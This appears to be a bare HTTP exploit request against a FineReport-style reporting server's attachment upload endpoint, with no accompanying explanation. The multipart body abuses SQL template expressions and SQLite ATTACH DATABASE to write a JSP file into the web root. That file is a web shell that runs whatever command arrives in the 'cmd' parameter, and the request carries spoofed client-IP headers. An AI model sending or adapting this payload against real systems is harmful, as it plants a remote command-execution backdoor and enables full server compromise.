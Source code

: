 POST /webroot/decision/view/form?op=fr_attach&cmd=aH_upload HTTP/2
Host: 
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
X-Forwarded-For: 103.146.179.104
X-Originating-Ip: 103.146.179.104
X-Remote-Ip: 103.146.179.104
X-Remote-Addr: 103.146.179.104
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary9nWtz5kBq3EiN5Jp
Content-Length: 456

------WebKitFormBoundary9nWtz5kBq3EiN5Jp
Content-Disposition: form-data; name="file"; filename="a"
Content-Type: text/xml

${SQL("FRDemo","	ATTACH DATABASE '../webapps/webroot/ctc.jsp' as psox;",1,1)}
${SQL("FRDemo","	CREATE TABLE psox.exp(data text);",1,1)}
${SQL("FRDemo","	INSERT INTO psox.exp(data) VALUES ('<%out.println(\"hallo\");Runtime.getRuntime().exec(request.getParameter(\"cmd\"));%>');",1,1)}
------WebKitFormBoundary9nWtz5kBq3EiN5Jp--

